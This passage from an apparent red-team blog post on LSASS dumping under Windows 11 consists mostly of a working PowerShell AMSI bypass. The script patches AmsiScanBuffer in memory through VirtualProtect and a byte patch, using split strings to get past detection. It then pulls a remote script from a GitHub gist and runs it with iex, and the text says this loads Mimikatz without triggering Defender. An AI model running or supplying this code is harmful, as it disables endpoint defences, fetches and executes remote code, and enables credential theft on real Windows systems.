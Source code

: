 ```powershell 
}


$a="A"
$b="msiS"
$c="canB"
$d="uffer"
[IntPtr]$funcAddr = LookupFunc amsi.dll ($a+$b+$c+$d)
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x31, 0xC0, 0xC1, 0xE0, 0x10, 0x66, 0x83, 0xC8, 0x57, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 12)
wget('https://gist.githubusercontent.com/pich4ya/144d32262861b573279d15e653c4e08d/raw/6f019c4e2f1f62ffc0754d01dff745d3cec62057/Invoke-SoHighSoHigh.ps1') -UseBasicParsing|iex
Invoke-SoHighSoHigh -Command '"coffee"'
```

![](/assets/posts/2024-05-19-LSASS-Dumping-Windows11/amsi_patch_ps.bmp)


In the image above, we can observe that we're able to load and execute Mimikatz without triggering Defender. However, as OutFlank pointed out in their blog [https://www.outflank.nl/blog/2019/10/20/red-team-tactics-active-directory-recon-using-adsi-and-reflective-dlls/](https://www.outflank.nl/blog/2019/10/20/red-team-tactics-active-directory-recon-using-adsi-and-reflective-dlls/) this technique isn't suitable for mature environments. Cornelis was certainly ahead of the curve when this blog first emerged in 2019.
